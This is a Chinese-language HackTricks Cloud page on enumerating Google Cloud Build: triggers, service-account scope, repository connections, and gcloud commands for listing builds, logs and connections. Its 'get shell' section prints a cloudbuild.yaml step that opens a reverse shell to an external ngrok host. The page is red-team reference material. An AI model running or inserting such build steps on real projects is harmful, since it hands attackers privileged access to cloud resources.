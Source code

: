 # GCP - Cloud Build Enum

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持多种编程语言。它允许开发人员**自动构建、测试和部署代码**，同时提供灵活性来定制构建步骤和工作流程。

每个Cloud Build触发器都与一个Cloud仓库相关联，或直接连接到外部仓库（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有看到从这里或Cloud仓库中窃取Github/Bitbucket令牌的方法，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，而Github不是由客户端访问的。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

- **推送到分支**：指定分支
- **推送新标签**：指定标签
- **拉取请求**：指定接收PR的分支
- **手动调用**
- **Pub/Sub消息**：指定主题
- **Webhook事件**：将公开一个HTTPS URL，请求必须使用密钥进行身份验证

### 执行

有3个选项：

- 一个yaml/json，**指定要执行的命令**。通常是：`/cloudbuild.yaml`
- 只能在Web控制台和cli中“内联”指定一个
- 最常见的选项
- 适用于未经身份验证的访问
- 一个**Dockerfile**进行构建
- 一个**Buildpack**进行构建

### SA权限

**服务账号具有`cloud-platform`范围**，因此可以**使用所有特权**。如果**未指定SA**（例如在提交时），将使用**默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不会授予任何权限，但很容易给予一些权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 批准

可以配置Cloud Build以**要求批准构建执行**（默认情况下已禁用）。

### 连接和仓库

可以通过以下方式创建连接：

- **GitHub：**它将显示一个OAuth提示，请求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**中。
- **GitHub企业版：**它将要求安装**GithubApp**。将在此项目中创建并存储来自GitHub企业主机的**身份验证令牌**，作为**Secret Manager**的秘密。
- **GitLab / 企业版：**您需要提供API访问令牌和读API访问令牌，这将存储在**Secret Manager**中。

生成连接后，您可以使用它来**链接Github账户有权限访问的仓库**。

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，通过此方法连接的仓库**仅在使用第二代触发器时可用**。
{% endhint %}

### 连接仓库

这与**`连接`**不同。这允许以**不同**方式访问**Github或Bitbucket**仓库，但**不会生成连接对象，但会生成一个仓库对象（第一代）。**

此选项可通过按钮访问：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成新的存储空间来存储触发器的文件**。例如，在GCP提供的示例中发生了这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 获取 shell

创建了一个名为 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 的存储桶，用于存储要使用的`.tgz`文件。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可以在构建配置和日志中找到敏感信息。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 提权

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经身份验证访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 漏洞利用后期阶段

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
